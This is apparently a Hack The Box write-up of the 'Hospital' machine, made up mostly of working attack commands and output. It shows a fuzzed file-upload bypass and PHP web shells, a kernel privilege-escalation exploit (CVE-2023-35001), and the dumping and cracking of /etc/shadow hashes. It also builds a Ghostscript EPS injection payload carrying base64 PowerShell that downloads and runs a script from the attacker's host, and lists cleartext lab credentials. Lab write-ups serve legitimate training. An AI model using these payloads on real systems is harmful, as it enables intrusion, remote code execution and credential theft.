


## Entry

Since its Windows boxes i will create my etc/hosts file first with nxc

```bash
➜  hospital nxc smb 10.10.11.241
SMB         10.10.11.241    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
➜  hospital sudo nxc smb 10.10.11.241 --generate-hosts-file /etc/hosts
SMB         10.10.11.241    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
➜  hospital cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali.kali.org   kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
f02::2 ip6-allrouters
10.10.11.241     DC.hospital.htb hospital.htb DC
```

okey lets check shares if we have Guest access or smth like that

```bash
➜  hospital nxc smb 10.10.11.241 -u '' -p ''
SMB         10.10.11.241    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.241    445    DC               [-] hospital.htb\: STATUS_ACCESS_DENIED 
➜  hospital nxc smb 10.10.11.241 -u 'Guest' -p ''
SMB         10.10.11.241    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.241    445    DC               [-] hospital.htb\Guest: STATUS_ACCOUNT_DISABLED 
```

okey lets start nmap scan

### nmap

```bash
22/tcp   open  ssh               syn-ack ttl 62  OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEOWkMB0YsRlK8hP9kX0zXBlQ6XzkYCcTXABmN/HBNeupDztdxbCEjbAULKam7TMUf0410Sid7Kw9ofShv0gdQM=
|   256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGH/I0Ybp33ljRcWU66wO+gP/WSw8P6qamet4bjvS10R
53/tcp   open  domain            syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec      syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-05 08:23:42Z)
135/tcp  open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn       syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http          syn-ack ttl 127 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
445/tcp  open  microsoft-ds?     syn-ack ttl 127
464/tcp  open  kpasswd5?         syn-ack ttl 127
593/tcp  open  ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?          syn-ack ttl 127
1801/tcp open  msmq?             syn-ack ttl 127
2103/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
2105/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
2107/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
2179/tcp open  vmrdp?            syn-ack ttl 127
3268/tcp open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl? syn-ack ttl 127
3389/tcp open  ms-wbt-server     syn-ack ttl 127 Microsoft Terminal Services
5985/tcp open  http              syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp open  http              syn-ack ttl 62  Apache httpd 2.4.55 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.55 (Ubuntu)
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

Okey this is really interesting. Cause there is some ports are open **22** and **88**  😀there is windows and linux box also. but so far web servers seems like interesting like **443** and **8080**

### Web Server

on port 8080


and at 443


we have roundcube here lets start with 8080 cause we dont have any creds yet.


i registered myself here and jump to dashboard. I didnt care if there is SQLi at login or register page cause i already find something interesting.


Its seems like so straight we will upload file and got shell here but have to sure which Server is actually running cause there is 2. i will create 1 file try to upload first

```bash
➜  hospital touch a.txt
➜  hospital echo 1 > a.txt
➜  hospital ls
a.txt
➜  hospital cat a.txt 
1
```


okey its seems like we can only upload image extension but i will also start fuzzing here maybe we can upload as php or smth like that.

```bash
➜  hospital ffuf -H 'Content-Type: multipart/form-data; boundary=---------------------------11902181737497576573931872037' -d $'-----------------------------11902181737497576573931872037\x0d\x0aContent-Disposition: form-data; name=\"image\"; filename=\"lego.FUZZ\"\x0d\x0aContent-Type: application/x-php\x0d\x0a\x0d\x0a<?php echo "RCE!"; ?>\x0d\x0a-----------------------------11902181737497576573931872037--\x0d\x0a' -u 'http://10.10.11.241:8080/upload.php' -w web_extension.txt -mr "Location: /success.php" 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.11.241:8080/upload.php
 :: Wordlist         : FUZZ: /home/elliot/Documents/HackTheBox/hospital/web_extension.txt
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------11902181737497576573931872037
 :: Data             : -----------------------------11902181737497576573931872037
Content-Disposition: form-data; name="image"; filename="lego.FUZZ"
Content-Type: application/x-php

<?php echo "RCE!"; ?>
-----------------------------11902181737497576573931872037--

 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: Location: /success.php
________________________________________________

.log                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 697ms]
.com                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 699ms]
.jsp                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 701ms]
.hta                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 91ms]
.c                      [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 95ms]
.cfm                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 98ms]
.bat                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 99ms]
.sql                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 85ms]
.dll                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 81ms]
.cgi                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 78ms]
.exe                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 76ms]
.htm                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1027ms]
.mdb                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2071ms]
.inc                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3250ms]
.js                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3247ms]
.jhtml                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3247ms]
.css                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4069ms]
.jsa                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4062ms]
.pht                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4068ms]
.phps                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4067ms]
.reg                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5087ms]
.json                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5083ms]
.rb                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5083ms]
.pcap                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5087ms]
.sh                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5083ms]
.pl                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5083ms]
.txt                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4318ms]
.xml                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4307ms]
.nsf                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5082ms]
.swf                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4322ms]
.phar                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5082ms]
.shtml                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 5083ms]
```

okey the fun fact we can upload `phar` file. i will use [weevely](https://github.com/epinna/weevely3) here

https://github.com/epinna/weevely3

```bash
(.venv) ➜  weevely3 git:(master) python3 weevely.py generate a a.phar   
Generated 'a.phar' with password 'a' of 696 byte size.
(.venv) ➜  weevely3 git:(master) ✗ ls
a.phar  bd  CHANGELOG.md  core  LICENSE  modules  README.md  requirements.txt  tests  utils  weevely.1  weevely.py
(.venv) ➜  weevely3 git:(master) ✗ cat a.phar 
<?php include "\160\x68\141\x72\72\57\57".basename(__FILE__)."\57\x78";__HALT_COMPILER(); ?>/x�Z~'�U�Qk�0���+J�hBE���\
                                                                                                                      ��^ƶ���J��FkR�8D����1a络s9w�X��Xˊva+�P�t|��۵ jX��LޏR5jQ)�d�o��x|�e)�Z����#}=�e��&�$�QT��
���@!�`�N(�_iKQr��*�r���t��Cf
GӅl��?��\&h�$IL��]_@����v�9����{ocp�4eL���U��A�)`A�O▒�▒�^^�J+
��,#4��ec�} �;&D��S�
```

or or or

```bash
POST /upload.php HTTP/1.1
Host: hospital.htb:8080
Content-Length: 241
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://hospital.htb:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxyuxenDUysHEuB75
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://hospital.htb:8080/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=ddlci3j2ut22j0phjve4hc141k
Connection: keep-alive

------WebKitFormBoundaryxyuxenDUysHEuB75
Content-Disposition: form-data; name="image"; filename="b.phar"
Content-Type: text/plain

<?php echo fread(popen($_REQUEST['cmd'], "r"), 1000000); ?>

------WebKitFormBoundaryxyuxenDUysHEuB75--
```

and grab shell. we are in

### CVE-2023-35001

```bash
www-data@webserver:/$ uname -r
uname -r
5.19.0-35-generic
```

okey lets clone repo and make it

https://github.com/synacktiv/CVE-2023-35001

```bash
➜  CVE-2023-35001 git:(master) make
go build
go: downloading github.com/mdlayher/netlink v1.4.2
go: downloading github.com/google/nftables v0.0.0-20220611213346-a346d51f53b3
go: downloading github.com/vishvananda/netns v0.0.0-20180720170159-13995c7128cc
go: downloading golang.org/x/sys v0.0.0-20211205182925-97ca703d548d
go: downloading github.com/mdlayher/socket v0.0.0-20211102153432-57e3fa563ecb
go: downloading github.com/josharian/native v0.0.0-20200817173448-b6b71def0850
go: downloading golang.org/x/net v0.0.0-20211209124913-491a49abca63
gcc -Wall -Wextra -Werror -std=c99 -Os -g0 -D_GNU_SOURCE -D_DEFAULT_SOURCE -D_POSIX_C_SOURCE=200809L src/wrapper.c -o wrapper
zip lpe.zip exploit wrapper
  adding: exploit (deflated 43%)
  adding: wrapper (deflated 83%)
➜  CVE-2023-35001 git:(master) ✗ ls
exploit  go.mod  go.sum  lpe.zip  main.go  Makefile  README.md  src  wrapper

```

we have to upload **exploit and wrapper**

```bash
➜  CVE-2023-35001 git:(master) ✗ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.241 - - [05/Jul/2025 00:03:45] "GET /exploit HTTP/1.1" 200 -
10.10.11.241 - - [05/Jul/2025 00:04:24] "GET /wrapper HTTP/1.1" 200 -
```

and booommm

```bash
www-data@webserver:/tmp$ ./exploit
./exploit
[+] Using config: 5.19.0-35-generic
[+] Recovering module base
[+] Module base: 0xffffffffc081a000
[+] Recovering kernel base
[+] Kernel base: 0xffffffffbb600000
[+] Got root !!!
# id
id
uid=0(root) gid=0(root) groups=0(root)
# 
```

i will check /etc/shadows directly.

```bash
# cat /etc/shadow
cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```

lets crack it

```bash
➜  hospital john drwilliams.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwe123!@#        (?)     
1g 0:00:00:33 DONE (2025-07-05 00:09) 0.02980g/s 6386p/s 6386c/s 6386C/s rufus11..pucci
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
➜  hospital cat drwilliams.hash 
$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/
```

we got our first creds `qwe123!@#`  i will check with nxc first.


okey i found only 2 users and dont wannt to dumnp BH data cause its seems like useless lets check on port 443 cause we didnt touch yet.

### RoundCube (CVE-2023-36664)


Okey itss seems like way. and found this at google

https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection

we can creat our file with

```bash
python CVE_2023_36664_exploit.py --generate --filename needle --extension eps --payload ""
```

and my payload will be

```bash
➜  hospital cat shell.ps1 
iwr -usebasicparsing -uri http://10.10.14.36/a.ps1|iex
➜  hospital cat shell.ps1 | iconv -t UTF-16LE | base64 -w0
aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA2AC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=%        ➜  hospital python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

now lets create it.

```bash
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) python CVE_2023_36664_exploit.py --generate --filename needle --extension eps --payload "powershell -enc aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA2AC8AYQAuAHAAcwAxAHwAaQBlAHgACgA="
[+] Generated EPS payload file: needle.eps
```

it will creat tihs file

```bash
➜  CVE-2023-36664-Ghostscript-command-injection git:(main) ✗ cat needle.eps 
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: 0 0 300 300
%%Title: Welcome EPS

/Times-Roman findfont
24 scalefont
setfont

newpath
50 200 moveto
(Welcome at vsociety!) show

newpath
30 100 moveto
60 230 lineto
90 100 lineto
stroke
(%pipe%powershell -enc aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA2AC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=) (w) file /DCTDecode filter
showpage% 
```

now we can send mail to drbrown.

## Root


nice!!!! and i found interesting file where i got shell.


lets see where actually its work

```bash
➜  hospital nxc rdp 10.10.11.241 -u drbrown -p 'chr!$br0wn'
RDP         10.10.11.241    3389   DC               [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC) (domain:hospital.htb) (nla:False)
RDP         10.10.11.241    3389   DC               [+] hospital.htb\drbrown:chr!$br0wn (Pwn3d!)
```

lets connect and i found something special.



we can read Administrator password here butttttttt if roundcube can login as Administrator and if we can upload our php or aspx file we can grab beacon as administrator.


and lets upload there


and boomm!!!



and i will load my beacon here

```bash
powershell -enc aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA2AC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=
```

and we got it.


## Creds

| username | password / hash | work at | from | privileges |
| --- | --- | --- | --- | --- |
| drwilliams | qwe123!@# | roundcube | etc/shadow | phishing |
| Administrator | Th3B3stH0sp1t4l9786! | everywhere | dump | DA |

## Tools

https://github.com/epinna/weevely3

https://github.com/synacktiv/CVE-2023-35001

https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection
